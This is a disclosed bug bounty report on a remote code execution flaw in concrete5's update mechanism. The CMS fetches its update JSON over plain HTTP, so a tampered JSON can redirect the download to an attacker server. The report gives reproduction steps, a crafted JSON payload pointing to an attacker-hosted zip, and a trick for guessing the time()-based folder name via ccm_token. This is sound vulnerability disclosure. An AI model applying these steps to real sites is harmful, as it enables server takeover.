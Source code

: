 # Fetching the update json scheme from concrete5 over HTTP leads to remote code execution

## Report Details
- **Report ID**: 982130
- **URL**: https://hackerone.com/reports/982130
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-09-14T18:26:33.466Z
- **Disclosed**: 2021-09-22T22:19:47.741Z

## Reporter
- **Username**: pabl00nicarres
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
Hi,
I noticed that concrete5 fetches the update JSON scheme from www.concrete5.org over HTTP.
The fetched json defines the download URL, so we can simply tamper with this JSON in order to make the update URL point to a server controlled by us.
Combining this with the possibility to set an arbitrary proxy for outgoing communications leads to RCE.

Privileges required: Administrator
Preconditions: the directory "updates" has to be writable from the application. 
Magic word for submitting the report: crayons

Here the steps to reproduce:

- Login with a user with Administrator privileges.
- Set the proxy to an attacker controlled proxy (here I used a Burp instance for the sake of simplicity).
{F987848}
- Write proxy rules to modify both request and answer. With Burp this comes trivial, I used the "match and replace" functionality. 

{F987845}

Here I explain the rules:
The first rule replaces the actual version "8.5.4" with version 8, so we can obtain a response from concrete5 with a valid json to  tamper with.
The second rule changes the json field "Direct Download URL" with an arbitrary host controlled by the attacker.
The third rule changes the json field "version" to a new version, to bypass the internal control logic making the application to believe there's a new update available.
Of course, we could simply provide a crafted json in the response, like this:

```
{"version":"8.6","notes":"RCE","notes_url":"https:\/\/documentation.concrete5.org\/developers\/background\/version-history\/821-release-notes","identifier":"8.6","date":"2017-08-02","direct_download_url":"http:\/\/192.168.1.170:8000\/test.zip"}
```

- Set a webserver with a zipped file. Here I used test.zip, which contains the file "poc.php".
- Perform the update check letting our proxy tamper with request/answer and then click on the download button.
- Verify that our fake update has been downloaded from our rogue server, successfully unzipped and is reachable from the web root (in the example below I downloaded it multiple times).
{F987864}
{F987866}
- The only issue in this procedure is that the application writes the unzipped update in a directory and the name of this directory is generated by the PHP native function time().
{F987869}

It could be easy to guess this value for an attacker but still pretty annoying, iterating over a number of values.
Luckily for us the application token "ccm_token" is generated using the very same "time()" function.
We can just perform an unauthenticated request (or whatever request returns the aforementioned token in a web page) knowing the time function output in that moment.
{F987876}
Doing this, an attacker just needs to perform 2 or 3 requests for nearby time values in order to guess the name of the folder,  making this completely reliable from the attacker perspective.

Thanks
Paolo Serracino

## Impact

Remote Code Execution

## Attachments
- concrete5_matchnreplace_proxyrules.png
- concrete5_proxysetting.png
- rouge_server_contacted.png
- updates_directory.png
- Screenshot_(459).png
- ccm_token.png
